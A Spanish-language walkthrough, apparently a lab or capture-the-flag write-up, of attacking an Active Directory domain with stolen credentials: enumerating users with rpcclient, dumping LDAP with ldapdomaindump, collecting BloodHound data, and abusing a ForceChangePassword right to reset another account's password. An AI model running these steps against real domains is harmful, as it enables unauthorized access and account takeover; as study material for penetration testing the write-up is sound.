 
#### OBTENIENDO LA INFORMACIÓN DEL DOMINIO:

1. Ahora que tenemos credenciales válidas, vamos a seguir enumerando el dominio.

```shell
$ rpcclient -U 'john%mypassword123' 10.10.10.50
...

$ rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[john] rid:[0x1f5]
user:[lisa] rid:[0x44f]
...
```

2. Otra herramienta que podemos usar es *ldapdomaindump* pero como genera un archivo .html conviene levantar el servicio apache antes para poder visualizarlo.

```shell
$ service apache2 start
...

$ cd /var/www/html
...

$ ldapdomaindump -u 'contoso.local\john' -p 'mypassword123' 10.10.10.50
...
[*] Connecting to host...
...
```


#### ENUMERANDO CON BLOODHOUND:

1. Como no tenemos acceso físico a la máquina para lanzar *SharpHound* utilizaremos esta herramienta que nos permitirá enumerar la información necesaria de forma remota.

```shell
$ bloodhound-python -c all -u 'john' -p 'mypassword123' -ns 10.10.10.50 -d contoso.local
...
```

- Este script nos podrá generar un archivo que podremos importar como DB a *BloodHound* (opcional).

2. BloodHound nos muestra que el usuario 'john@contoso.local' tiene un permiso "ForceChangePassword" con el que podemos cambiar la contraseña de otro usuario llamado 'audit2020@contoso.local' 

3. Vamos a intentar cambiar la contraseña de ese usuario para validarnos con él y ver si dispone de nuevos permisos para seguir avanzando en la intrusión.

```shell
$ rpcclient -U 'john%mypassword123' 10.10.10.50
...

$ rpcclient $> setuserinfo2 audit2020 23 'Contraseña123'
```
